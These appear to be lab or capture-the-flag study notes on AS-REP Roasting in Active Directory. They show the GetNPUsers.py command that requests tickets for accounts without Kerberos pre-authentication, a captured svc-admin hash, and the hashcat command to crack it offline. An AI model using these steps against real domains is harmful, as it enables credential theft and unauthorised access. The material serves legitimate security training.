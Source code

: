 # Exploiting Kerberos
- Exploit a feature within Kerberos with an attack method called AS-REP Roasting 
- AS-REP Roasting occurs when a user account has `does not require pre-authentication` set
- User account `does not` need to provide valid identification before requesting a Kerberos ticket on the specified user account

## Retrieving Kerberos Tickets
- GetNPUsers script
- Used to retrieve domain users who do not have `do not require Kerberos pre-authentication` set 
- Ask for TGT without knowing passwords

<pre>GetNPUsers.py -no-pass -usersfile ./users.txt -dc-ip 10.10.155.48 spooky.local/</pre>

- Returns the user that can query a ticket without a password

<pre>$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:408ee4a3e91ec877b931d35c56364c77$63dc9e093d6f3ddfd0074033786ed4d4d6e5f3e9f27be7f98866c0c91c4271c6c8a721eafa9e343a2b9638da64fe71d7563c31e51e6aac0686ba9025ab8ff2d41b8b24f38888cd803c70568744a12daa95cca16b73fa6bc5b20f1fb697b29fd1fe39fa0553ae07ad7e6e2f5232e306ee2abf3ee2ba8ebc704bc96f0d60cd245f96f4caa7c20c3a673fba2b25a384593b01e334560348a146d9168e1fc594b8c59e11382193bd2b3f1c421f9d5fdc61167c8f3bfa18d60fc6fca79923c16b707927719330363b593c28ccc0c7dd2c5e7696b43d45a4bc016341f773805c53f51d2b6ae4a0fa3c3280a18a9d53d9b5fd08337c</pre>

- Determine hash type: https://hashcat.net/wiki/doku.php?id=example_hashes&source=post_page-----96f926eca20f--------------------------------  
- Hash mode: 18200
- Hash starts with ($krb5asrep)

## Crack hash
Password list: https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
<pre>hashcat -m 18200 hash.txt passwordlist.txt</pre>
